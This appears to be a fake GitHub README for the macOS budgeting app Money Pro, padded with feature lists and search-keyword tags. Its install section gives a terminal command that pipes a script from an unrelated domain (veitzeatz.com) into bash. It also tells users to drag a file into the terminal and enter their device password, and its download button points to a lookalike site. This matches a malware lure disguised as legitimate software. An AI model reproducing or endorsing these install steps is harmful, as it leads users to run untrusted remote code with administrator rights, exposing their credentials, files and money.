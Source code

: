# 💸 Money Pro — Personal Finance & Budgeting App for macOS

Money Pro is the ultimate finance and budget planner app for macOS. Whether you're managing personal expenses or small business finances, Money Pro gives you everything you need — from budgets and bills to powerful analytics and beautiful UI.

[![🚀 Download Money Pro 🟣](https://img.shields.io/badge/Download-Money%20Pro-blueviolet)](https://moneydance-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Money Pro?

Money Pro is an advanced money management tool for macOS. It allows you to plan budgets, track expenses, monitor bills, and analyze your financial behavior across all your Apple devices.

Whether you're a freelancer, a household budgeter, or a small business owner, Money Pro helps you stay on top of your finances with ease and elegance.

---

## ✨ Features

- 💰 Expense & income tracking with custom categories  
- 🧾 Bill planning with calendar view  
- 📊 Budget planner with progress indicators  
- 🔄 Recurring transactions & automation  
- 🌐 Sync across devices via iCloud  
- 🔒 Secure with Face ID and Touch ID support  
- 📈 Detailed reports and graphs  
- 🛠️ Attach receipts and notes to transactions  

---

## 🖼️ Preview

![Money Pro Screenshot 1](https://money.pro/img/preambule_money_pro.jpg)  
![Money Pro Screenshot 2](https://money.pro/img/moneypro_windows_budget.jpg)

---

## 📌 Tags

money pro, moneyguidepro, emoney pro, money guy pro,  
moneyguide pro cost, pro money, money pro app, money pro mac, money pro,  
monefy pro, money manager premium, money pro for mac, my money pro,  
moneyguidepro pricing, money guard pro, emoney pro pricing, envestnet moneyguidepro,  
money pro software, money pro online, money for macbook pro, money pro personal finance,  
1money pro, active money pro, app money pro, get money pro, i money pro,  
i money pro loan app, ibear llc, ibear money pro, imoney pro, income cash pro
